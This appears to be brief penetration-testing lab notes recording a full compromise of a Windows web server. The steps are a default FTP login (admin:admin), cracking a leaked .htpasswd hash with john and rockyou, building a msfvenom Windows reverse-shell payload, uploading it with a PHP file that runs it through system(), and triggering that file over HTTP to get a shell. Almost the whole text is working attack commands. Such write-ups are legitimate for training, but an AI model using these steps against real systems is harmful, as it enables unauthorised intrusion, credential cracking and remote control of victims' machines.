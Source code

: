 -  ftp 192\.168\.199\.46
-  admin:admin

\.htpasswd \- offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0

-  john offsec\.hash \-\-wordlist=/usr/share/wordlists/rockyou\.txt 
-  elite            \(offsec\)

-  msfvenom \-p windows/shell\_reverse\_tcp LHOST=192\.168\.45\.199 LPORT=4411 \-f exe \> shell\.exe
-  exec\.php
\<?php
$exec = system\('shell\.exe', $val\)
?\>

ftp\> put shell\.exe \(admin:admin\)
ftp\> put exec\.php

-  http://192\.168\.190\.46:242/exec\.php

C:\\wamp\\www\>whoami